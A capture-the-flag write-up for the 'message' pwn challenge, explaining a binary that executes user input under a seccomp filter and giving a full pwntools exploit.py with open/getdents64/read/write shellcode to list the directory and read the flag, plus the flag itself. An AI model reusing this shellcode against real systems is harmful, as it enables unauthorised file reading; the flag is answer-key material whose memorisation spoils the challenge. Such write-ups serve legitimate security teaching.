 ## message

```
Author: gawrgare

What do you want to say to me?

nc ctf.tcp1p.com 8008
```
**Attachment**: [chall](release/chall)

We were given an ELF binary. Here's some information about this binary.
![File Information 1](images/ea4d22be18868a475768cf2fccc93741448d368e73d27032080d2a6e270bd5f5.png)  


Let's take a look what does this program do
<details close><summary>Decompiled Binary</summary>
    
```c
int setup()
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  return setvbuf(stderr, 0LL, 2, 0LL);
}

__int64 seccomp_setup()
{
  __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = seccomp_init(0LL);
  seccomp_rule_add(v1, 2147418112LL, 2LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 0LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 1LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 217LL, 0LL);
  return seccomp_load(v1);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *buf; // [rsp+0h] [rbp-10h]
  void *dest; // [rsp+8h] [rbp-8h]

  buf = malloc(0x150uLL);
  dest = mmap(0LL, 0x1000uLL, 7, 34, -1, 0LL);
  setup();
  seccomp_setup();
  if ( dest != (void *)-1LL && buf )
  {
    puts("Anything you want to tell me? ");
    read(0, buf, 0x150uLL);
    memcpy(dest, buf, 0x1000uLL);
    ((void (*)(void))dest)();
    free(buf);
    munmap(dest, 0x1000uLL);
    return 0;
  }
  else
  {
    perror("Allocation failed");
    return 1;
  }
}
```
    
</details>

Based by the decompiled program, first the program will set the buffer of stdin, stdout and stderr to non buffer. Then it will call the `seccomp_setup()` function that apply a seccomp rules. To understand what does the seccomp do, we can use [seccomp-tools](https://github.com/david942j/seccomp-tools) to assist us to understand the seccomp rules that being applied. Here's the output of seccomp-tools.
![Seccomp Tools Output](images/64045df7fbbc121cd058becb46de70bfdf4a20b679b0db0dbf3a60ebfac42ea7.png)  

Now it's clear, the seccomp only allow 4 syscalls (read, write, open, getdents64). After applying the seccomp, the program will read the user input and save it into a heap. Then it will copy the user input into a rwx memory area that allocated by mmap. Then it will run the user input at the rwx address.

We can exploit it to read the flag by creating a ORW shellcode to read the file. But, since we don't know the name of the flag file in the server, we need to create a shellcode to read the contents of the directory first, by using the getdents syscall (getdents64 in this case). Here is an example payload to read the files in the current directory using getdents64.

```python
p = b""
p += asm(f"""
    {shellcraft.open(".")}
    {shellcraft.getdents64("rax", "rsp", 0x300)}
    {shellcraft.write(1, "rsp", 0x300)}
    """)
```

![Leaked Flag Filename](images/70060cfa75aa351aaf425d7f8a37bcf2d1a056598538285d9251c82d614e9474.png)  

After that, we just need to read the file `flag-3462d01f8e1bcc0d8318c4ec420dd482a82bd8b650d1e43bfc4671cf9856ee90.txt` using the ORW (Open Read Write) shellcode to obtain the flag.

Here's my exploit to solve this challenge.
    
<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/chall"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 8008
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def exploit(io, libc=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][0]
            cmd = choosen_gdb + """
            b *main+0xc1
            c
            si
            """
            gdb.attach(io, gdbscript=cmd)
    
    RIP_OFFSET = cyclic_find(0x61)
    p = b""
    # p += asm(f"""
    #     {shellcraft.open(".")}
    #     {shellcraft.getdents64("rax", "rsp", 0x300)}
    #     {shellcraft.write(1, "rsp", 0x300)}
    #     """)
    # # flag-3462d01f8e1bcc0d8318c4ec420dd482a82bd8b650d1e43bfc4671cf9856ee90.txt
    p += asm(f"""
        {shellcraft.open("flag-3462d01f8e1bcc0d8318c4ec420dd482a82bd8b650d1e43bfc4671cf9856ee90.txt")}
        {shellcraft.read("rax", "rsp", 0x300)}
        {shellcraft.write(1, "rsp", 0x300)}
        """)
    
    io.sendafter(b"? \n", p)
    print(io.recv())
    print(io.recv())

    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        # libc = ELF("___")
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
        # libc = ELF("___")
    exploit(io, libc)   
``` 
</details>

![PWN3D](images/7afc08cd45e59546657ed068ac363b927481f15dae67374fbf7c1699116bb5bc.png)  

**Flag:** TCP1P{I_pr3fer_to_SAY_ORGW_rather_th4n_OGRW_d0nt_y0u_th1nk_so??}